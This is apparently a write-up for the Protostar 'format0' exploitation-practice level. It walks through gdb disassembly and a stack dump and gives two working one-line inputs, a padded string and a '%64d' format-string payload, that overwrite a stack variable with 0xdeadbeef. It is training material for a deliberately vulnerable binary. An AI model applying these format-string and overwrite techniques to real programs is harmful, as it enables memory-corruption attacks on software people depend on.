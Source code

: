 # Format 0
## Overview
    This level introduces format strings, and how attacker supplied format strings
    can modify the execution flow of programs.
    Hints:
        This level should be done in less than 10 bytes of input.
        "Exploiting format string vulnerabilities"
## Process
    $ gdb -q ./format0
    Reading symbols from ./format0...done.
    (gdb) disas main
        Dump of assembler code for function main:
            0x0804842b <+0>:     push   %ebp
            0x0804842c <+1>:     mov    %esp,%ebp
            0x0804842e <+3>:     and    $0xfffffff0,%esp
            0x08048431 <+6>:     sub    $0x10,%esp
            0x08048434 <+9>:     mov    0xc(%ebp),%eax
            0x08048437 <+12>:    add    $0x4,%eax
            0x0804843a <+15>:    mov    (%eax),%eax
            0x0804843c <+17>:    mov    %eax,(%esp)
            0x0804843f <+20>:    call   0x80483f4 <vuln>
            0x08048444 <+25>:    leave
            0x08048445 <+26>:    ret
        End of assembler dump.
    (gdb) disas vuln
        Dump of assembler code for function vuln:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     sub    $0x68,%esp
            0x080483fa <+6>:     movl   $0x0,-0xc(%ebp)
            0x08048401 <+13>:    mov    0x8(%ebp),%eax
            0x08048404 <+16>:    mov    %eax,0x4(%esp)
            0x08048408 <+20>:    lea    -0x4c(%ebp),%eax
            0x0804840b <+23>:    mov    %eax,(%esp)
            0x0804840e <+26>:    call   0x8048300 <sprintf@plt>
            0x08048413 <+31>:    mov    -0xc(%ebp),%eax
            0x08048416 <+34>:    cmp    $0xdeadbeef,%eax
            0x0804841b <+39>:    jne    0x8048429 <vuln+53>
           0x0804841d <+41>:    movl   $0x8048510,(%esp)
           0x08048424 <+48>:    call   0x8048330 <puts@plt>
           0x08048429 <+53>:    leave
           0x0804842a <+54>:    ret
        End of assembler dump.
    (gdb) b *vuln+34
        Breakpoint 1 at 0x8048416: file format0/format0.c, line 15.
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAA
        Starting program: /home/mickey/Desktop/protostar_exploit_practice/format0
        AAAAAAAAAAAAAAAAAAAAAAA
        Breakpoint 1, 0x08048416 in vuln (string=0xffffd7d4 'A'<repeats 23 times>)
        at format0/format0.c:15
        15      format0/format0.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd540: 0xffffd55c  0xffffd7d4  0x000000e0  0x00000000
        0xffffd550: 0xf7ffd000  0xf7ffd918  0xffffd570  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x00414141  0x0000002f  0xf7e12dc8  0xf7fd5858
        0xffffd580: 0x00008000  0x08049624  0xffffd598  0x080482ec
        0xffffd590: 0x00000002  0x08049624  0xffffd5c8  0x00000000
        0xffffd5a0: 0xf7fb8000  0xf7fb8000  0xffffd5c8  0x08048444
        0xffffd5b0: 0xffffd7d4  0x080481e8  0x0804846b  0x00000000
        0xffffd5c0: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5d0: 0x00000002  0xffffd664  0xffffd670  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5f0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd600: 0x00000000  0x03d3c2b4  0x3fb38ca4  0x00000000
        0xffffd610: 0x00000000  0x00000000  0x00000002  0x08048340
        0xffffd620: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
## Method
    You can see the result above that the buffer starts at the last stack of line
    0xffffd550 to third stack of line 0xffffd590 (since the variable "target" is 
    set to 0, and which is located just behind the end of the buffer, that is
    the last stack of line 0xffffd590).
    Thus, we need to first use 64 bytes to overwrite the space of buffer, and then
    uses "\xef\xbe\xad\xde" (little endian of 0xdeadbeef) to overwrite target.
## Answer
    $ ./format0 `python -c 'print "A"*64+"\xef\xbe\xad\xde"'`
    you have hit the target correctly :)
    or 
    $ ./format0 `python -c 'print "%64d"+"\xef\xbe\xad\xde"'`
    you have hit the target correctly :)
    
    Note: The 2nd answer is better, since the length of the input is limited 
          to less than or equal to 10 bytes.
